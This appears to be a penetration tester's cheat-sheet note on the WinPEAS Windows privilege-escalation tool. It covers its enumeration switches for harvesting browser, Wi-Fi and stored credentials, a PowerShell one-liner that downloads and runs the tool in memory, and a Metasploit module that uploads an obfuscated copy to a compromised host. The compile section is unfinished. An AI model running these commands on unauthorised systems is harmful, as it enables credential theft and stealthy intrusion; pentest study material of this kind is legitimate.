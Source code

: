 # WinPEAS

## 01 - Compile

Install a targeting pack

https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481

Compile WinPEAS

TODO: figure it out how to manually compile WinPEAS in C#

```
C:\> git clone https://github.com/carlospolop/PEASS-ng.git

C:\> cd PEASS-ng\winPEAS\winPEASexe\winPEAS

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> copy Program.cs Program.cs.bak

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet new console --force

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet add package Microsoft.VisualStudio.UnitTesting --version 11.0.50727.1

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> del Program.cs; move Program.cs.bak Program.cs
```

_**I'm still having an error**_

```
C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

## 02 - Manual

### 2.1 - Usage

It will display all of the results once executed.

```
C:\> winPEASx64.exe
```

Runs the enumeration tool but does not display the banner.

```
C:\> winPEASx64.exe quiet
```

Look for sensitive files.

```
C:\> winPEASx64.exe fileinfo
```

Enumerate web browser databases credentials.

```
C:\> winPEASx64.exe browserinfo
```

Find credentials on the Windows machine and check for [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/03 - Privilege Escalation/Windows/Local Privilege Escalation/Registry/AlwaysInstallElevated/Manual/Living off the Land|AlwaysInstallElevated]].

```
C:\> winPEASx64.exe windowscreds
```

Obtaining Wi-Fi passwords, credential manager and clipboard information using the command prompt commands.

```
C:\> winPEASx64.exe quiet cmd
```

Display the results that is related only to the user information.

```
C:\> winPEASx64.exe userinfo
```

Enumerate installed programs that we might look into.

```
C:\> winPEASx64.exe applicationsinfo
```

Enumerate to discover any insecure services that we can hijack.

```
C:\> winPEASx64.exe servicesinfo
```

Provide information related to the current running processes.

```
C:\> winPEASx64.exe processinfo
```

Discover networking information.

```
C:\> winPEASx64.exe networkinfo
```

Enumerating the whole system and find kernel vulnerabilities.

```
C:\> winPEASx64.exe systeminfo
```

Enumerate the system quickly yet it's gonna be noisy and might be a risk to OPSEC that does absorb some resources.

```
C:\> winPEASx64.exe quiet searchfast
```

Search everything on the system.

```
C:\> winPEASx64.exe quiet searchall
```

### 2.2 - Download and Execute

```powershell
$url = 'https://github.com/carlospolop/PEASS-ng/releases/download/20220821/winPEASx64.exe'

$wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

## 03 - Metasploit

```
$ sudo cp peass.rb /usr/share/metasploit-framework/modules/post/multi/gather/

$ sudo wget -O /usr/share/metasploit-framework/modules/post/multi/gather/peass.rb https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/metasploit/peass.rb

msf > reload_all

msf > use post/multi/gather/peass

msf post(multi/gather/peass) > options

Module options (post/multi/gather/peass):

   Name        Current Setting                              Required  Description
   ----        ---------------                              --------  -----------
   PARAMETERS                                               no        Parameters to pass to the script
   PASSWORD    w2ogatdfgsh1mcathikl7j39alk715q7             no        Password to encrypt and obfuscate the script (randomly generated). The length
                                                                      must be 32B. If no password is set, only base64 will be used.
   PEASS_URL   https://github.com/carlospolop/PEASS-ng/rel  yes       Path to the PEASS script. Accepted: http(s):// URL or absolute local path. Lin
               eases/latest/download/winPEASany_ofs.exe               peas: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas
                                                                      .sh
   SESSION                                                  yes       The session to run this module on
   SRVHOST                                                  no        Set your metasploit instance IP if you want to download the PEASS script from
                                                                      here via http(s) instead of uploading it.
   SRVPORT     443                                          no        Port to download the PEASS script from using http(s) (only used if SRVHOST)
   SSL         true                                         no        Indicate if you want to communicate with https (only used if SRVHOST)
   SSLCert                                                  no        Path to a custom SSL certificate (default is randomly generated)
   TEMP_DIR                                                 no        Path to upload the obfuscated PEASS script inside the compromised machine. By
                                                                      default "C:\Windows\System32\spool\drivers\color" is used in Windows and "/tmp
                                                                      " in Unix.
   TIMEOUT     900                                          no        Timeout of the execution of the PEASS script (15min by default)
   URIPATH     /u6xm.txt                                    no        URI path to download the script from there (only used if SRVHOST)

msf post(multi/gather/peass) > advanced

Module advanced options (post/multi/gather/peass):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   ListenerBindAddress                   no        The specific IP address to bind to if different from SRVHOST
   ListenerBindPort                      no        The port to bind to if different from SRVPORT
   ListenerComm                          no        The specific communication channel to use for this service
   SSLCipher                             no        String for SSL cipher spec - "DHE-RSA-AES256-SHA" or "ADH"
   SSLCompression       false            no        Enable SSL/TLS-level compression
   SSLVersion           Auto             yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are auto-negotiate) (Accepted: Aut
                                                   o, TLS, SSL23, SSL3, TLS1, TLS1.1, TLS1.2)
   SendRobots           false            no        Return a robots.txt file if asked for one
   URIHOST                               no        Host to use in URI (useful for tunnels)
   URIPORT                               no        Port to use in URI (useful for tunnels)
   VERBOSE              false            no        Enable detailed status messages
   WORKSPACE                             no        Specify the workspace for this module

msf post(multi/gather/peass) > set peass_url http[s]://<IP>:<PORT>/winPEASx64.exe

msf post(multi/gather/peass) > set session <session_id>

msf post(multi/gather/peass) > run

[+] PEASS script successfully retrieved.
[*] Encrypting PEASS and encoding it in Base64...
[*] Uploading obfuscated peass to C:\Windows\System32\spool\drivers\color\1ecke...
[+] Uploaded
[*] Running PEASS...
..[truncated]..

[+] PEASS output saved to: /root/.msf4/loot/20220515165546_default_10.0.2.15_PEASS_757580.txt
[*] Post module execution completed
```

---
## References

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

- [WinPEAS Metasploit Module](https://github.com/carlospolop/PEASS-ng/tree/master/metasploit)